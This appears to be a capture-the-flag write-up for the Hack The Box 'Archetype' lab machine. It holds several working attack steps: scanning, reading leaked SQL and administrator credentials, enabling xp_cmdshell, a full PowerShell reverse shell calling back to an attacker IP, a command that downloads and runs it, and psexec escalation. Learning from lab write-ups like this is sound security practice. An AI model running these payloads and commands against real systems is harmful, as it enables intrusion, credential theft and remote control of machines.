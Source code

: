 # Archetype

As always the first thing I did was run 2 nmap scans:
```bash
sudo nmap -T4 -p- 10.10.10.27
sudo nmap -T4 -A -p 135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.27 -o scan
```

2 caught my eye:
```
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
```

SMB and an MS SQL Server.


## SMB

I started by having a look at the SMB layout:

```bash
sudo smbclient -N -L \\\\10.10.10.27\\

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

This looked OK, so I connected to backups to see what was available:

```
sudo smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8249578 blocks available
```

This looked very promising, some kind of config file was available, so I downloaded it to see what was inside:

```
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (2.0 KiloBytes/sec) (average 2.0 KiloBytes/sec)


kali@kali:$ cat prod.dtsConfig
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

This gives us 2 bits of very useful information about the SQL server:
- Username - ARCHETYPE\sql_svc
- Password - M3g4c0rp123


## SQL Server

Using these credentials I was now able to log into the SQL server using Impacket's mssqlclient.py:

```
kali@kali:$ python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

The next step was to enable system commands to be run through the `xp_cmdshell` command, by running the following commands:
```
EXEC sp_configure 'Show Advanced Options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE;
```

This allowed me to find the user flag using the following command:
```
xp_cmdshell "type C:\Users\sql_svc\Desktop\user.txt"
```

This was good, but in order to get any further I knew I was going to need a reverse shell.

## Getting A Shell

Now that I knew I was able to run system commands through the SQL server I should be able to upload a file containing a reverse shell on the server and get a shell.

### 1. Setup a local server to host the exploit

I setup a simple python server which I could use to source my exploit:
```
python3 -m http.server 80
```

### 2. Setup an ncat listener as an endpoint for the reverse shell
```
nc -nlvp 4444
```

I then allowed access through the firewall to allow traffic to access the servers:

```
ufw allow from 10.10.10.27 proto tcp to any port 80,4444
```

### 3. Find a reverse shell

It took me a while to find the right reverse shell, as the antivirus kept on blocking the ones I was using. However I eventually found this one:
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.17.35",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### 4. Run the reverse shell

Using powershell I was able to download and run the reverse shell:

```
xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.17.35/shell.ps1\");"
```

## Privilage Escalation

This turned out to be very simple, a quick check of the powershell history file showed that the backups drive had been mapped using the local administrator credentials:
```
PS type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

Using another Impacket exploit I was able to gain a privilaged shell:
```
python3 psexec.py administrator@10.10.10.27

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file mQSRmrqV.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service idDI on 10.10.10.27.....
[*]Starting service idDI....
Press help for extra shell commands[!]
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```

This gave me access to the flag:
```
type C:\Users\Administrator\Desktop\root.txt
```